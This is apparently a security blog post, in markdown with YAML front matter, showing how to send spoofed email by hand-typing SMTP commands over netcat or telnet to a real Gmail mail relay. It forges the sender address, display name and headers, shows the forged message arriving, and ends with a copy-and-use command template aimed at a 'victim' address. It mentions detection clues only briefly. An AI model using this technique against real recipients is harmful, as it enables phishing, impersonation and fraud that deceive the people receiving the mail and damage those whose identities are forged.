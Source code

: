 ```yaml
---
layout: post
title:  "Email Spoofing With Netcat or Telnet"
author: Michael
tags: [ netcat, telnet, spoofing, email ]
permalink: /email-spoofing-netcat/
featured: false
hidden: false
#subtitle: Excerpt from Soulshaping by Jeff Brown
cover-img: /assets/img/netcat3.png
thumbnail-img: /assets/img/netcat3.png
share-img: /assets/img/netcat3.png
---
```


<blockquote> I have also written a follow up post about <a href="https://exploits.run/email-spoofing-powershell/">spoofing with powershell here</a>.</blockquote>

Recently, while having a discussion with a security research team I’m on, we stumbled into discussion about email spoofing. This ultimately led to all sorts of shenanigans including an email from the President himself! The more we talked the more we discussed the ease of pulling off something like this against the average user. In this post, I plan to examine basic concepts of email and email spoofing though, of course, it will not be exhaustive and you should do some additional research on how to identify emails like this or advanced spoofing concepts.
<p><img src="/assets/img/netcat1.png"></p>

#### THE SYNTAX

You can initiate a connection to a mail relay using Netcat or Telnet, traditionally. Identifying a mail relay server isn’t very difficult as it’s easily found in a domains MX records. For example, if I wanted to send an email to a gmail address, I can simply look up the DNS records and I’m provided with a list of their MX servers.
<p><img src="/assets/img/netcat2.png"></p>
<blockquote>Image from a search conducted using DNSdumpster.com</blockquote>
Using this as an example, let’s walk through the spoof and see how it plays out.

<strong>Windows:</strong>
`telnet qr-in-f26.1e100.net 25`

<strong>Linux:</strong>
`nc -C qr-in-f26.1e100.net 25`

These commands will initiate a connection to one of the gmail relay servers where we can imitate a mail client and send the email. Let’s look at a finished mail below and see what happened:
<p><img src="/assets/img/netcat3.png"></p>

#### COMPOSING THE EMAIL

After initiating our netcat connection we receive a 220 from the email server letting us know they’re ready to accept information from us. We send the server a “HELO” telling them we are ‘gmail.com’ and they acknowledge it with a 250. Then we tell them who is sending the mail, this can be anyone. In this case we chose ‘chuck@assurancedata.com’. We set the victims address with “RCPT TO”. Then we send a “DATA” request to begin forming the email that the victim will see. The data fields it will first be looking for are laid out above in order: From, To, Subject, and Date.

If you examine the layout above, you’ll see you can select the display name and email address they see (you’ll see this in the received email I’ll show you below). The funky characters in the Date field will just add the current time/date information in the format the email server is looking for. You can elect to put different time/date information should you choose to do so but it will make mail servers suspicious. Lastly, when you’re done with the email, you place a single period (.) on a line of it’s own and hit “Enter”. This let’s the mail server know you’re done with your message.
<p><img src="/assets/img/netcat4.png"></p>


The email did indeed make it to my Gmail inbox. You’ll see that by all intents and purposes it appears to be directly from “Chuck” at Assurance Data. What’s that red question mark? That is a notification by Google stating that they can’t verify this email came from Chuck. The reason for this is the email was sent without authenticating. Because no authentication took place on the mail server, the web app automatically wants you to know. But if you’re the average user and you use something like Outlook or a 3rd party mail app, you’ll likely not see anything like that.
<p><img src="/assets/img/netcat5.png"></p>
<blockquote>Thanks Chuck!</blockquote>

#### TIP OF THE ICEBERG

As I started off by saying, there’s so much more to be said about this. This only offers a brief overview of how to send a spoofed email through netcat/telnet. There are many precautions that email providers like Google take as well as businesses. The email headers are littered with information that these emails aren’t legitimate. For this to be anything more than a prank, an attacker or Red Teamer is going to have to be a bit more… creative in their approach. There are many ways to avoid that big red question mark, just ask Mr. President.
<p><img src="/assets/img/netcat6.png"></p>

#### STUFF YOU CAN COPY AND USE

Here’s the summary exchange for you to look at for your own use:

```
nc -C MAIL.SERVER.COM 25
(mail server says hello)
HELO spoofingdomain.com
(mail server acknowledges)
MAIL FROM: <spoofed@spoofingdomain.com>
(server says OK)
RCPT TO: <victim@address.com>
(server says OK)
DATA
(server says go)
From: Display Name <spoofed@spoofingdomain.com>
To: Victim Name <victim@address.com>
Subject: Hacking you
Date: Wed, 26 Sep 2018 14:21:26 -0400
Hello,
This is the email body.
Goodbye
.
(Server sends email)
```
